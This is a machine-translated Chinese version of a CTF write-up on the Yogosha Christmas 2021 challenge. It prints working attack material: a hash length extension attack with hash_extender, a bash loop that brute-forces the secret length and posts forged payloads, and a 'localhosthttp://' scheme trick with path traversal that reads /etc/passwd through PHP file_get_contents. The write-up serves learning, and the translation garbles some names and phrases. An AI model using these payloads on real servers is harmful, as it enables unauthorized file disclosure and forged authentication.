


# 2021 年 CTF 日惹圣诞节

> 原文：<https://infosecwriteups.com/yogosha-christmas-2021-ctf-96166d508808?source=collection_archive---------1----------------------->

安全爱好者们好，今年圣诞节我玩了“CTF 2021 年日惹”挑战，因为我在 12 月 28 日收到了他们团队的邮件，我很快就报名了。


[日奥官员](https://twitter.com/YogoshaOfficial)

虽然我不能完成所有的挑战，但我学到了新的东西，即

*   哈希长度扩展攻击。
*   LFI vuln。& PHP 的怪异行为。

整个 CTF 都是基于火影忍者的主题。

# 第一个挑战:

这是一个简单的 OSINT 挑战，是关于追踪一个在 flickr 上发布图片的用户。图像的元数据包含下一个挑战的标志和链接。让我们专注于此。

# 第二个挑战(宇智波或邪恶):

挑战网址:[http://3.141.159.106](http://3.141.159.106)描述:*听说/secret.txt 里面有重要的东西*

让我们尝试在 web 服务器上加载 **/secret.txt** 文件。但是没有找到(404)。然后我问日惹管理员。答案是:*是的，它是根目录下的一个文件，我们必须访问那个* *。

在少量枚举之后，我们可以读取 **/robots.txt** 文件。

用户代理:宇智波
允许:/read.php

请注意用户代理字段。当你试图访问/read.php 时，你通常会得到一个拒绝访问的消息。让我们截取请求并更改用户代理。

```
GET /read.php HTTP/1.1
Host: 3.141.159.106
User-Agent: Uchiha
```

有评论回应”！—我们的宇智波开发者被丹佐迷住了，请任何有经验的宇智波**检查源代码漏洞**；→"

现在有一个提交一些数据的功能，所以你可以用相同的用户代理发出一个 post 请求，在 POST 数据中加入一些散列和文件名，你将得到页面的源代码。



这是检查请求的用户代理的行。

`if ($_SERVER['HTTP_USER_AGENT']!=="Uchiha")`:)

现在进一步阅读，我们得到了所有我们需要的 php 代码。

```
<?php
include "secret.php";
if(isset($_POST['string'])){
	$arr=explode("|",$_POST['string']) ;
	$filenames=$arr[1];
	$hash=$arr[0];
	if($hash===hash("sha256", $SECRET.$filenames ) && preg_match("/\//",$filenames)===0 ){
		foreach(explode(":",$filenames) as $filename){
			if(in_array($filename,["read.php","index.php","guinjutsu.php"])) {
				$jutsu=file_get_contents($filename);
				echo "Sharingan: ".$jutsu;
		}
		}
	}
	else{
		echo "Verification Failed! You didn't awaken your sharingan!";
	}}}
?>
```

*   现在，我们可以看到正在处理的是 **string=** i/p。

1.  首先，它检查是否设置了字符串变量。
2.  **explode()** 函数使用给定的分隔符，即“|”来断开数组中的字符串。
3.  哈希部分存储在哈希变量中，文件名存储在文件名变量中。
4.  它检查提供的哈希是否等于通过在文件名前加上$SECRET 并使用 sha256 算法计算的哈希。
5.  它还通过使用 **preg_match()** 检查文件名中是否存在“/”来检查文件名是否包含类似“…/…/…/”的 LFI 有效载荷。
6.  然后再次在 delimeter ":"处中断文件名，并使用 **file_get_content()** 获取其内容。

虽然我明白这一点上的一切，但不知道什么是脆弱的。所以挣扎了一下，然后第二天离开了 ctf。

第二天，我在 discord 上收到一条消息，说这是一个**哈希长度扩展攻击**，这也是后来在提示中添加的。
现在这是密码世界中众所周知的攻击，但我完全不知道它的存在。让我们看看这是什么。

博客:[https://blog . skullsecurity . org/2014/plaidctf-we b-150-mt pox-hash-extension-attack](https://blog.skullsecurity.org/2014/plaidctf-web-150-mtpox-hash-extension-attack)
工具:[https://github.com/iagox86/hash_extender](https://github.com/iagox86/hash_extender)

*   简而言之，如果一个应用程序允许用户同时控制**散列**和**数据**，并且认为将未知的**秘密**作为数据的前缀，那么散列是验证数据是它应该是什么的安全方式。
*   那么这个逻辑是错误的。在这种攻击中，我们可以通过**将我们的有效载荷**附加到**数据**来创建一个新的散列，这将与应用程序创建的散列相同。

我推荐阅读关于它的原始帖子。

*   现在要使用这个工具，除了用于散列的秘密长度之外，我们什么都有了。所以我们能做的是创造所有可能的组合，从 1 到 50 或者更高，直到我们找到正确的答案。

`./hash_extender -d='read.php' -s 184b5d255817fc0afe9316e67c8f386506a3b28b470c94f47583b76c7c0ec1e5 -f sha256 --out-data-format=html -l 8 -a ':guinjutsu.php'`

但是它的输出非常整齐

```
Type: sha256
Secret length: 41
New signature: fc979b4620daf4a9db3f5fdddfb3300469162e41daa0d60c976c336701bf7117 (new hash)
New string: read%2ephp%80%00%00%00%00%00%00%00%00%00%00%00%00%01%88%3aguinjutsu%2ephp (new data)
```

我们不能每次都手动生成 100 个有效负载并复制粘贴。所以创建了一个 bash one liner，它将自动提取有用的数据并发送给服务器，并检查 burp 中的响应。

```
for i in {20..51}; do ./hash_extender -a=':guinjutsu.php' -d='read.php' -s 184b5d255817fc0afe9316e67c8f386506a3b28b470c94f47583b76c7c0ec1e5 -f sha256 --out-data-format=html -l $i -o data | sed -n 3p| cut -d ":" -f 2 | cut -d " " -f 2 > hash; HASH=`cat hash`;DATA=`cat data`; curl -X POST 'http://3.141.159.106/read.php' -H "User-Agent: Uchiha" -d "string=$HASH%7C$DATA&submit=Sharingan" -x http://127.0.0.1:8080; done
```

*   这给出了正确的密钥长度，即 41 和我们需要的有效载荷。`string=fc979b4620daf4a9db3f5fdddfb3300469162e41daa0d60c976c336701bf7117%7Cread%2ephp%80%00%00%00%00%00%00%00%00%00%00%00%00%01%88%3aguinjutsu%2ephp`

    利用这个我们可以读出 guinjutsu.php 文件的内容。

```
Sharingan: <?php
// This endpoint is deprecated due to some problems, I heard that other clans have stolen some jutsus
function check($url){
   $par=parse_url($url);
   if (((strpos($par['scheme'],'http')!==false)and($par['host']=='uchiha.fuinjutsukeeper.tech'))and($par['port']==5000)){
       return True; }
   else{
       return False;
   }}
if (isset($_POST['submit'])){
   if ((isset($_POST['api']))and(isset($_POST['endpoint']))){
       $url=$_POST['api'].$_POST['endpoint'];
       if (check($url)){
           $opts = array(
 'http'=>array(
   'method'=>"GET",
   'follow_location'=>false,
   'header'=>"Accept-language: en\r\n" 
 )
);
$context = stream_context_create($opts);
$file = file_get_contents($url, false, $context);
echo $file; }
   }
} ?>
```

*   我们有一些 php woo000！同样，我理解代码，但不知道潜在的漏洞。所以花了一些时间。
*   首先，它检查 POST 请求数据，然后连接两个变量 **api** 和**端点**，形成一个 **url** 变量，并将其解析到 **parse_url()** 函数，该函数以数组格式返回 url 的方案、主机和端口，并对其进行验证。

`if (((strpos($par['scheme'],'http')!==false)and($par['host']=='uchiha.fuinjutsukeeper.tech'))and($par['port']==5000)`

于是我赶紧给/guinjutsu.php 端点发了一个类似这样的 POST 请求。



并成功检查所有标记和 **file_get_contents($url，false，$ context)；**解析 url 并获取响应。

*   问题是 file_get_content()是非常不安全的，它将获取任何数据本地，远程无关紧要。
*   所以我试着用`http://uchiha.fuinjutsukeeper.tech:5000/../../../../../../../etc/passwd`但是我得到了这样的回应

`file_get_contents(http://uchiha.fuinjutsukeeper.tech:5000/../../../../../../etc/passwd): Failed to open stream: HTTP request failed! HTTP/1.1 400 Bad Request`

```
which is standard response for malformed urls.
```

*   在这一点上，我忽略了一件非常重要的事情，即`(strpos($par['scheme'],'http')`只是检查 scheme 中 http 字符串的存在，这也是提示中提到的
    ，结果我在主题上徘徊了一段时间，从 [parse_url LFI](https://blog.theo.com.tw/Research/PHP-The-issue-between-parse-url-and-real-path/#Interesting-about-parse-url) 博客到 youtube orange 的 ssrf 会谈等等。
*   所以当我尝试`api=localhosthttp://uchiha.fuinjutsukeeper.tech:5000/../../../../../../etc/passwd&endpoint=&submit=Sharingan`的时候。成功了

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

注意 scheme 中的 **localhosthttp** 不是一个有效的 scheme，响应也包含关于它的警告以及文件的内容。

我很惊讶发生了什么，为什么会这样问创造者和一些 peeps。显然这就是 PHP 工作方式，据说如果它不理解给定的方案，它会将 *file://* 协议作为默认协议。我发现 php 中的其他文件读取函数也存在同样的行为，如 **inlcude()** 等。

*   因此，我使用它读取了/secret.txt 文件(…/…/…/…/…/secret.txt)的内容，并找到了挑战标志。

如果你们有任何反馈，请告诉我。希望今年发布更多博客并跟踪进展。

谢谢你